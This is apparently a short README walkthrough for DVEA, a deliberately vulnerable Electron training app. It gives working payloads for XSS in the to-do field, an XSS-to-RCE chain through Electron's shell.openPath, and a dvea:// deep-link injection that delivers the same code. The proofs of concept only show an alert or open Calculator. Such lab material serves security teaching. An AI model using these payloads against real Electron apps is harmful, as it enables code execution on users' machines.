 Here's the brief walkthrough of security vulnerabilities in DVEA:

# Cross-site Scripting

A simple XSS payload of `<img src=1 onerror='alert("DVEA")'/>` will perform XSS on the application when put in the to-do item section

# XSS to RCE

To perform RCE via XSS, you need to import "shell" library and execute its `openPath` function using which you can execute commands on the system

```
<a onmouseover="
try{
const  {shell}=require('electron');
shell.openPath('/System/Applications/Calculator.app/')
}catch(e){
    console.error(e)
}">Hover Me</a>
```

# Deep-link to XSS

The app is registered with a deep-link of `dvea://` which is used to add tasks to the app using deep link e.g. `dvea://task?add=Clean Your Room` which obviously can be fed with an XSS payload like `dvea://task?add=<img src=1 onerror="alert('Deep link XSS')"/>` when opened via browser.

# Deep-link to RCE

Now combining all the above attack vectors we can chain the deep link to achieve RCE using the same payload as in "XSS to RCE" when invoked via the deep link, the payload will look something like

```
dvea://task?add=<a onmouseover="try{const%20 {shell}=require('electron');shell.openPath('/System/Applications/Calculator.app/')}catch(e){console.error(e)}">Hover Me</a>
```
